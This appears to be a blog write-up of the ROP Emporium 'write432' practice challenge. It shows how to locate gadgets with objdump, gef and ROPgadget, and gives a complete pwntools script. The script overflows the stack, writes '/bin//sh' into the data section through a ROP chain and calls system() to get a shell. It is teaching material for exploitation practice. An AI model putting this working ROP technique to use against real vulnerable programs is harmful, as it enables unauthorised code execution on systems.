 ```yaml
---
layout: post
title: ROP Emporium - write432
---
```


### Instruction
Once you've figured out how to write your string into memory and where to write it, go ahead and call system() with its location as your only argument. Are you going to cat flag.txt or drop a shell with /bin/sh? Try to wrap some of your functionality in helper functions, if you can write a 4 or 8 byte value to a location in memory, can you craft a function (in python using pwntools for example) that takes a string and a memory location and returns a ROP chain that will write that string to your chosen location? Crafting templates like this will make your life much easier in the long run.

### Prev step to overflow stack
<https://bhrdn.github.io/ROP-Emporium-ret2win32/>

### Find sh addr in data section
```bash
objdump -D write432 | grep data_start | awk '{print $1}'
```
- __data_start : 0x804a028

### Check function usefulGadgets
```
gef➤  disassemble usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x08048670 <+0>:     mov    DWORD PTR [edi],ebp
   0x08048672 <+2>:     ret    
   0x08048673 <+3>:     xchg   ax,ax
   0x08048675 <+5>:     xchg   ax,ax
   0x08048677 <+7>:     xchg   ax,ax
   0x08048679 <+9>:     xchg   ax,ax
   0x0804867b <+11>:    xchg   ax,ax
   0x0804867d <+13>:    xchg   ax,ax
   0x0804867f <+15>:    nop
End of assembler dump.
```
- mov    DWORD PTR [edi],ebp

### ROPgadget to search gadgets
```bash
ROPgadget --binary write432 | grep "pop edi"
```
```
0x080486d5 : add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080486d4 : jecxz 0x8048661 ; les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x080486d3 : jne 0x80486c1 ; add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080486d6 : les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x080486d7 : or al, 0x5b ; pop esi ; pop edi ; pop ebp ; ret
0x080486d8 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080486da : pop edi ; pop ebp ; ret
0x080486d9 : pop esi ; pop edi ; pop ebp ; ret
```
- 0x080486da : pop edi ; pop ebp ; ret

### Payload
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('write432')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

io = start()

payload = '\x90' * cyclic_find('laaa')
command = '/bin//sh'

DATA_START = 0x804a028
POP_EDI_POP_EBP = 0x080486da

rop = ROP(exe)
for _ in range(0, len(command), 4):
	rop.raw(POP_EDI_POP_EBP)
	rop.raw(DATA_START + _)
	rop.raw(command[_:_ + 4])
	rop.raw(exe.symbols['usefulGadgets'])

rop.system( DATA_START )

io.sendline(payload + rop.__str__())
io.interactive()
```